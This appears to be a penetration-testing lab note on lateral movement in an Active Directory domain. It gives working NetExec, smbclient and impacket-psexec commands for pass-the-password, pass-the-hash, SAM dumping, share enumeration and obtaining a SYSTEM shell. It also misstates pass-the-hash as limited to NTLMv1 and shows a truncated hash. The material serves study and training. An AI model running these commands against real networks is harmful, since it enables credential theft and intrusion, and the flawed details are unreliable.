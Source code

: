 If SAM hashes or passwords are dumped, we can pass them to other services/accounts to see if they work there as well.
# NetExec
https://www.netexec.wiki/
## Pass the Password
NetExec (crackmapexec is no longer supported) Pass the Password example:
```bash
nxc smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1
```
This command enumerates smb to check if fcastle:Password1 gets access to anything. It will list machines with Admin access as "Pwn3d!".
## Pass the Hash
Pass the Hash example (only works on NTLMv1):
```bash
nxc smb 10.0.0.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:6c598d4edc98d0a0c9797ef98 --local-auth 
```
* --sam can dump SAM database of any pwned machines.
* --shares will list all shares that pwned machines can access.
List all nxc modules:
```bash
nxc smb -L
```
To view nxc database (that is auto-filled with data gathered from other nxc commands), do the following:
```bash
cmedb
help
# Use any of the commands displayed e.g.
hosts
creds
```
# SMBClient
SMBClient can also be used to access restricted file shares via pass the hash.
Example:
```bash
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```
# PSExec/WMIExec
The PSExec script is very similar to the Sysinternals PsExec command.
To execute psexec, we can enter impacket-psexec with two arguments. The first argument is -hashes, which allows us to use NTLM hashes to authenticate to the target. The format is "LMHash:NTHash", in which we specify the Administrator NTLM hash after the colon. Since we only use the NTLM hash, we can fill the LMHash section with 32 0's.
The second argument is the target definition in the format "username@IP".
At the end of the command we could specify another argument, which is used to determine which command psexec should execute on the target system. If we leave it empty, cmd.exe will be executed, providing us with an interactive shell.

**PSExec gives you a SYSTEM shell. WMIexec gives you a shell of the user (in this case 'Administrator').**

Example:
```bash
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```
Note: In the above example, the 0000...: was added to the start of the hash.

